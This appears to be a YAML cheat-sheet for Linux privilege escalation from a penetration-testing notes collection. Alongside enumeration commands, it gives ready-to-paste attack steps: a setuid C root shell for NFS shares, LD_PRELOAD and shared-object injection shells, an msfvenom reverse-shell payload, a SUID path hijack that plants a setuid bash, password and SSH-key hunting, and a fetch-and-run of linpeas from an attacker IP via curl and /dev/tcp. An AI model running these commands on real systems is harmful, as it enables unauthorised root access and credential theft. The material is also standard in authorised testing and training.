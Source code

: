 ```yaml
---
functions:
  privilege-escalation:
    - description: Simplistic and standard checklist for linux privilege escalation, in no particular order
      code: |
        Feel free to copy paste the entire listing below
        System Info Enum:
        - [ ] uname -a
        - [ ] cat /etc/issue
        - [ ] cat /etc/*-release
        - [ ] cat /proc/version
        - [ ] lsb_release -a
        - [ ] ps aux
        - [ ] lscpu
        - [ ] env
        - [ ] echo $PATH
        - [ ] sudo -l
        - [ ] hostname
        - [ ] mount
        - [ ] dpkg -l
        - [ ] cat /etc/fstab
        - [ ] ssh -V
        - [ ] /bin/lsblk
        - [ ] lsmod
        - [ ] sudo -V
        - [ ] ls -al /etc/iptables/* -R
        - [ ] ls -lah /etc/cron*
        - [ ] find / -iname *.bak 2>/dev/null
        - [ ] find / -iname *.backup 2>/dev/null
        - [ ] strace <bins in sudo>

        User Enum:
        - [ ] whoami
        - [ ] id
        - [ ] cat /etc/passwd
        - [ ] cat /etc/group
        - [ ] history

        Network Enum:
        - [ ] ip a
        - [ ] ifconfig
        - [ ] /sbin/route
        - [ ] netstat -plant

        Task Scheduling:
        - [ ] cat /etc/crontab
        - [ ] cat /etc/cron.d/*
        - [ ] cat /var/spool/cron/crontabs/*
        - [ ] cat  /var/spool/cron/*
        - [ ] systemctl list-timers --all
        - [ ] grep "CRON" /var/log/cron.log
        - [ ] Is CRON running but you can't tell what??  process monitoring (below scripts)
              nohup bash ./procmon.sh > procs.txt &
              cat procs.txt
              https://github.com/unkn0wnsyst3m/scripts/blob/master/procmon.sh
              https://github.com/DominicBreuker/pspy   nohup ./pspy64 -p -i 1000 > out &
              https://cronitor.io/cron-reference/how-to-list-all-cron-jobs

        File Systems #NoRootSquash
        - [ ] cat /etc/exports | grep no_root_squash
              showmount -e <targetip>  #mount -o rw,vers=2 <targetip>:<mountable-folder> <localmount>
              echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > shell.c
              gcc shell.c -o shell; chmod +s+x shell --> add to share

        Password Hunting:
        - [ ] grep --color=auto -rnw '.' -ie "PASSWORD=" 2>/dev/null #search specific folders
        - [ ] grep --color=auto -rnw '.' -ie "PASSWORD:" 2>/dev/null #search specific folders
        - [ ] grep -Rinw . -e 'password' 2>/dev/null #search specific folders
        - [ ] locate pass | more
        - [ ] find / -name id_rsa 2>/dev/null
        - [ ] find . -type f -exec grep --color=auto -Hrnwie "PASSWORD" {} 2>/dev/null \;  #search specific folders
        - [ ] find / -iname *passw* 2>/dev/null
        - [ ] find / -iname *passw* 2>/dev/null | grep -v -E "/lib/systemd/|boot|/var/lib/dpkg/|/usr/share/|/usr/lib/"

        - [ ] find . -name "*setting*" 2>/dev/null  # | grep -vE "/usr/|/etc/"  to exclude folders
        - [ ] find . -name "*config*" 2>/dev/null # | grep -vE "/usr/|/etc/"  to exclude folders

        (Shared Library) LD_PRELOAD:
        - [ ] sudo -l  #--> is LD_PRELOAD in the sudo permissions?
          https://github.com/unkn0wnsyst3m/scripts/blob/master/shell_ldpreload.c
          gcc -fPIC -shared shell.c -o shell.so -nostartfiles
          msfvenom -p linux/x64/shell_reverse_tcp -f elf-so -o utils.so LHOST=kali

          sudo LD_PRELOAD=/home/user/shell.so <BIN IN SUDO -l>

        (Shared Library) Hijack:
        - [ ] ls -al /etc/ld.so.conf.d/
        - [ ] ldd $(find / -perm -u=s -type f 2>/dev/null)  #look for paths you can edit and look for unlinked libraries
        - [ ] echo $LD_LIBRARY_PATH
              https://www.boiteaklou.fr/Abusing-Shared-Libraries.html

        SUID:
        - [ ] find / -perm -u=s -type f -ls 2>/dev/null

        SUID CHILD PATH BINARY TAKEOVER:
        strings /usr/local/bin/suid-env2
            --> /usr/sbin/service apache2 start
        function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s+x /tmp/bash && /tmp/bash -p; }
        export -f /usr/sbin/service
        execute - /usr/local/bin/suid-env2

        CAPABILITIES:
        - [ ] getcap -r / 2>/dev/null

        SHARED OBJECT INJECTION:
        - [ ] strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
            --> open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
          https://github.com/unkn0wnsyst3m/scripts/blob/master/shell.c
          gcc -fPIC -shared shell.c -o /home/user/.config/libcalc.so -nostartfiles

          run setuid_bin

        FILE PERMISSION SEARCHING:
        - [ ] find / -type f -perm -2 2>/dev/null | grep -v -i -E "proc|sys"                     #world writable
        - [ ] find / -user root -perm -002 -type f 2>/dev/null | grep -v "^/proc/"     #world writable ownd by root
        - [ ] ls -al $(find / -perm -1000 -type d 2>/dev/null)   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
        - [ ] ls -al $(find / -perm -g=s -type f 2>/dev/null)    # SGID (chmod 2000) - run as the group, not the user who started it.
        - [ ] ls -al $(find / -perm -u=s -type f 2>/dev/null)    # SUID (chmod 4000) - run as the owner, not the user who started it.
        - [ ] find / -perm -u=s -type f -ls 2>/dev/null
        - [ ] find / -xdev -user root -perm -o+w -type f 2>/dev/null | grep -v -i -E "proc|sys"
        - [ ] find / -xdev -user root -perm -o+w -type d 2>/dev/null | grep -v -i -E "proc|sys"
        - [ ] find / -xdev -group admin -perm -o+w -type f 2>/dev/null | grep -v -i -E "proc|sys"
        

        QUICK WINS:
        - [ ] dpkg -l | grep nginx  # l.6.2 nginx (and earlier) and writable log dir with sudo suid CVE-2016-1247
          https://github.com/unkn0wnsyst3m/scripts/blob/master/nginx-CVE-2016-1247.sh
        - [ ] ps aux | grep mysqld  # running as root?
          https://mfnttps.github.io/mfnttps/mysql-code_exec/
        - [ ] cat /etc/exports | grep no_root_squash  #see above
        - [ ] groups | grep docker && ls -al /var/run/docker.sock
          https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-docker-socket

    - description: LinPeas
      code: |
        curl http://10.10.10.10/linpeas.sh | sh
        cd /tmp; wget http://10.10.10.10/linpeas.sh && sh linpeas.sh

        sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
        cat < /dev/tcp/10.10.10.10/80 | sh #Victim

        # Output to file
        ./linpeas.sh -a > /dev/shm/linpeas.txt

    - description: Linux Exploit Suggester 2
      code: |
        perl linux-exploit-suggester.pl

          #############################
            Linux Exploit Suggester 2
          #############################

          Local Kernel: 2.6.32
          Searching 72 exploits...

          Possible Exploits
          [1] american-sign-language
              CVE-2010-4347
              Source: http://www.securityfocus.com/bid/45408
          [2] can_bcm
              CVE-2010-2959
              Source: http://www.exploit-db.com/exploits/14814

        ...
        ...

        Use the -k flag to manually enter a wildcard for the kernel/operating system release version.
        perl linux-exploit-suggester.pl -k 3



resources: |
  https://github.com/jondonas/linux-exploit-suggester-2/blob/master/linux-exploit-suggester-2.pl
  https://github.com/SecWiki/linux-kernel-exploits
  https://github.com/mzet-/linux-exploit-suggester
  https://github.com/lucyoa/kernel-exploits
  https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
  #c-shell: echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > shell.c 
  #script: cp /bin/bash /tmp/shell && chmod +s /tmp/shell && chmod o+x /tmp/shell
---
```


